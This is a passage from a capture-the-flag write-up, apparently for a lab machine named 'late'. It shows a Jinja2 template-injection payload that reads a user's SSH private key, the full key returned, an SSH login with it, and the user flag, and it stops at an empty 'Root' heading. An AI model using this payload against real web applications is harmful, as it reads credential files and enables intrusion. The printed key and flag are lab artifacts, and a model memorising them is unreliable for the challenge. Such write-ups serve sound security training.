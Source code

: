 
We find 2 users available to login:
```bash
root:x:0:0:root:/root:/bin/bash
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
```

Looking for a ssh private key we find `/home/svc_acc/.ssh/id_rsa`.
```bash
## REQUEST
{% raw %}{{get_flashed_messages.__globals__.__builtins__.open("/home/svc_acc/.ssh/id_rsa").read()}}{% endraw %}

## RESPONSE
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----
```

Login and grab ``user.txt``:
```bash
➜  late ssh svc_acc@10.10.11.156 -i svc_acc-id_rsa 
svc_acc@late:~$ id && hostname
uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
late
svc_acc@late:~$ cat user.txt 
90faa22275cce13d448e927941c55eff
```

-------
# Root
